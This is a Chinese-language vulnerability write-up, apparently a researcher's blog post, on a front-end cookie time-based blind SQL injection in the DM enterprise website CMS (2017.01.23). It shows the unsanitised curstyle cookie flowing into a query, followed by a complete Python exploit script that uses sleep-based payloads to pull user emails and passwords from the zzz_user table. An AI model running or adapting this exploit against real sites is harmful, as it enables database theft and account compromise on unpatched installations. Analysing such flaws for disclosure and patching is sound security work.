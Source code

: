 ```yaml
---
title: DM企业建站系统前台盲注
date: 2017-01-29 21:24:30
tags: 
 - 漏洞分析
categories: codereview
---
```


## 概述
今天搞了一下动态调试的东西，然后顺便看了看上次下的[DM企业建站系统2017.01.23](http://www.demososo.com/down.html)。

<!-- more -->

# 前台cookie 时间盲注
大致跟了一下几个入口文件，该套cms主要的安全措施为`htmlentities`，在POST&&GET的输入点做了html实体化的操作，但是这并不转义单引号（默认不转义单引号具体可看[htmlentities](http://www.php.net/manual/en/function.htmlentities.php)），看了一下进行数据库查询的sql语句，涉及到字符串类型时，都是单引号闭合，那么很清楚，在进行数据库查询时容易产生sql注入漏洞。
那么接下来主要找一下进行数据库操作的位置。

1. POST&&GET
2. COOKIE 

ps：这里就随便找了一个地方，因为这套系统注入不要太多，连后台登陆都可以 :P

前面提到对POST&&GET做了实体转义，但是grep找了一下cookie，发现并没有对cookie的值进行安全操作，直接带入数据库查询。
indexDM_load.php Line 108

```
...

if(@$_COOKIE["curstyle"]<>'') 		
    $curstyle = $_COOKIE["curstyle"];
else 
    $curstyle = $row['curstyle'];
    
...

$sqlstyle = "SELECT * from ".TABLE_STYLE." where pidname='$curstyle' $andlangbh limit 1"; 
 //echo $sqlstyle;exit;
if(getnum($sqlstyle)>0){
	$rowstyle = getrow($sqlstyle);
```
上述为漏洞的主要成因点，如果cookie中存在curstyle,优先选用cookie中的值，然后带入数据库查询。由于没有找到具体回显数据的地方，所以采用时间盲注的方式获取数据。

带上自己写的EXP

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Created by wh1t3P1g at 2017/1/30

import requests,time

class CookieBlindSqlInjection:

    def __init__(self,url):
        self.url=url
        self.len=0

    def getLength(self,column,table):
        payload0 = "curstyle=1'||if((select length(cast(bin(length({column})) as char)) from {table} limit {line_start},1)={flag},sleep(5),1)=1#"
        payload1 = "curstyle=1'||if((select substr(bin(length({column})),{col_start},1) from {table} limit {line_start},1)=1,1,sleep(5))=1#"
        #first confirm bin-format data length
        len=0
        for i in range(1,9):
            cookie=payload0.format(column=column,table=table,line_start=0,flag=i)
            flag=self.send(cookie)
            if flag=="0":
                len=i
                break
        res=""
        for i in range(1,len+1):
            cookie=payload1.format(column=column,col_start=i,table=table,line_start=0)
            flag=self.send(cookie)
            res+=flag
            # print res
        self.len=int(res,2)
        pprint("*", "fetch "+column+" length: "+str(self.len))
        return int(res,2)

    def getData(self,column,table):
        payload0="curstyle=1'||if((select length(cast(bin(ascii(substr({column},{data_start},1))) as char)) from {table} limit {line_start},1)={flag},sleep(5),1)=1#"
        payload1 = "curstyle=1'||if((select substr(bin(ascii(substr({column},{data_start},1))),{col_start},1) from {table} limit {line_start},1)=1,1,sleep(5))=1#"
        total_res=""
        for i in range(1,self.len+1):#具体数据的长度
            len = 0
            for j in range(1, 9):
                cookie = payload0.format(column=column,data_start=i, table=table, line_start=0, flag=j)
                flag = self.send(cookie)
                if flag == "0":
                    len = j
                    break
            # print "len:"+str(len)
            res = ""
            for k in range(1, len + 1):
                cookie = payload1.format(column=column,data_start=i, col_start=k, table=table, line_start=0)
                flag = self.send(cookie)
                res += flag
                # print res
            total_res+=chr(int(res,2))
            pprint("*", "fetch "+column+": "+total_res)
        return total_res

    def send(self,cookie):
        headers={"Cookie":cookie}
        try:
            r = requests.get(self.url, headers=headers,timeout=4)
            return "1"
        except:
            return "0"

def pprint(flag,content):
    print "[{flag}] [{time}] {content}" \
        .format(flag=flag, time=time.asctime(time.localtime(time.time())), content=content)

if __name__=='__main__':
    cookieBlindSqlInjection=CookieBlindSqlInjection("http://127.0.0.1/cms/DM/20170123/")
    pprint("*","program start")
    pprint("*", "start fetching column[email]")
    cookieBlindSqlInjection.getLength("email","zzz_user")
    email=cookieBlindSqlInjection.getData("email","zzz_user")
    pprint("*", "start fetching column[ps]")
    cookieBlindSqlInjection.getLength("ps", "zzz_user")
    ps=cookieBlindSqlInjection.getData("ps", "zzz_user")
    pprint("*", "[email]: "+email+" ,[ps]: "+ps)
    pprint("*", "program done")

```

ps:DM这个鬼，代码写的好乱啊T_T




